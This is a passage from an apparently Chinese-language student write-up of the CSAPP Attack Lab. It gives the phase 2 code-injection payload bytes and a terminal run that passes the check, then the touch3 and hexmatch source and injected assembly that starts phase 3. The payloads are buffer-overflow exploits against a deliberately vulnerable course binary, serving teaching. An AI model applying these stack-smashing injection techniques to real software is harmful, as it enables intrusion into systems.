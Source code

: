 输入运行。

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase2 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch2!: You called touch2(0x63149380)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:2:48 C7 C7 80 93 14 63 68 CC 16 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00 
```

### phase_3

查看touch3

```cpp
void touch3(char *sval)
{
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
	printf("Touch3!: You called touch3(\"%s\")\n", sval);
	validate(3);
} else {
	printf("Misfire: You called touch3(\"%s\")\n", sval);
	fail(3);
}
	exit(0);
}
```

可知其需要一个指向字符的指针sval，然后调用hexmatch，将cookie和sval作为参数传入，需要hexomatch返回非零值。

```cpp
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

由hexmatch可知，其比较cookie的字符串表示与传入的字符串是否相等，相等则返回1，那么问题明了，我们需要将表示cookie的字符串地址传给touch3，与第二题不同的是字符串需要有空间保存，我们需要在栈中找出调用hexmatch时候未被重写改变的空间，借以保存字符串。

```assembly
mov     $0x5566f7c8,%rdi
pushq   $0x4017a0
ret
```
